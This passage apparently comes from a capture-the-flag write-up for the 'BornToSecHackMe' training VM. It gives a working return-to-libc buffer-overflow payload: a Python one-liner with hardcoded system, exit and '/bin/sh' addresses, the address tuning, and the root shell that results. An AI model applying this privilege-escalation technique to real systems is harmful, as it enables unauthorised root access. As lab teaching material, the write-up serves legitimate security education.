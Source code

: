 ```sh
zaz@BornToSecHackMe:~$ ./env_addr
Estimated address: 0xbfffffba
```

#### Using those adresses

So we know about the buffer 140, and the adresses so we are gonna create our own shellcode.
+ First step: we're gonne fill the buffer with random char: 'A' * 140
+ Second step: we're gonna rewrite the eip of strcpy by the adress of system:
'\xb7\xe6\xb0\x60'[::-1]
+ Third step we give to system a way to exit properly with the exit adress:
'\xb7\xe5\xeb\xe0'[::-1]
+ Last step is to give "/bin/sh" as argument to system to open the shell:
'\xbf\xff\xff\xba'[::-1]

Let's try it out !
```sh
./exploit_me `python -c "print('A' * 140 + '\xb7\xe6\xb0\x60'[::-1] + '\xb7\xe5\xeb\xe0'[::-1]) + '\xbf\xff\xff\xba'[::-1]"`
```
Because the adress of "/bin/sh" was approximative, we get the result 
```sh
"sh: 1: /sh: not found"
```
So we can play with this adress to find the exact beginning of the string:
```sh
'\xbf\xff\xff\xba'[::-1] --> '\xbf\xff\xff\xb9'[::-1] --> sh: 1: n/sh: not found
'\xbf\xff\xff\xb9'[::-1] --> '\xbf\xff\xff\xb8'[::-1] --> sh: 1: in/sh: not found
'\xbf\xff\xff\xb8'[::-1] --> '\xbf\xff\xff\xb7'[::-1] --> sh: 1: bin/sh: not found
'\xbf\xff\xff\xb7'[::-1] --> '\xbf\xff\xff\xb6'[::-1] --> 
# ls /
bin   cdrom  etc   initrd.img  media  opt   rofs  run	selinux  sys  usr  vmlinuz
boot  dev    home  lib	       mnt    proc  root  sbin	srv	 tmp  var
# whoami
root
#
```
Well done you are root !